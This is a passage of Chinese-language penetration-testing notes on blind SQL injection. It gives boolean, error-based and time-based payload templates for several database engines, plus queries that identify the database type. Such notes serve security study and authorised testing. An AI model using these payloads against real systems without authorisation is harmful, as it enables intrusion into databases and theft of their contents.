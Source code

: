 **extractvalue**

### 布尔盲注

#### 条件响应盲注

* 当SQL语句执行正确时，页面出现某些内容，而错误时不显示该内容，可以进行布尔盲注

```sql
<原语句> AND <条件>
```

**条件错误盲注**

* 当SQL语句执行错误时，页面出现报错（没有详细内容），可以进行布尔盲注

```sql
-- MySQL
<原语句> AND (SELECT CASE WHEN (<条件>) THEN 1/0 ELSE '' END)
-- Oracle
<原语句> AND (SELECT CASE WHEN (<条件>) THEN TO_CHAR(1/0) ELSE '' END FROM dual)
-- PostgreSQL
<原语句> AND (SELECT CASE WHEN (<条件>) THEN cast(1/0 as text) ELSE '' END)
```

* 条件为真时，执行1/0，报错（除数不能为0）

### 时间盲注

#### 基本语法

```sql
-- MySQL
<原语句> AND SLEEP(5)
<原语句> AND if(1=2,1,SLEEP (5))
-- PostgreSQL
<原语句>||pg_sleep(<时间>)
<原语句>||IF(1=2,1,pg_sleep(<时间>))
<原语句>;/*%3B*/SELECT+CASE+WHEN+(<条件>)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END
-- Oracle
<原语句> AND dbms_pipe.receive_message(('a'),5)

-- SQL Server
<原语句> AND WAITFOR DELAY '0:0:5'
```

#### 附：盲注中判断数据库类型

```sql
-- MySQL
ASCII(SUBSTRING(@@version, 1, 1)) = 77

-- Oracle
(SELECT COUNT(*) FROM v$version WHERE banner LIKE '%Oracle%') > 0
(SELECT '1' FROM dual) = '1'

-- PostgreSQL
(SELECT COUNT(*) FROM pg_stat_activity) > 0 

-- SQL Server
(SELECT COUNT(*) FROM sys.databases WHERE name = 'master') > 0

-- SQLite
(SELECT COUNT(*) FROM sqlite_master WHERE type = 'table') > 0

-- DB2
(SELECT COUNT(*) FROM sysibm.sysdummy1) > 0
```
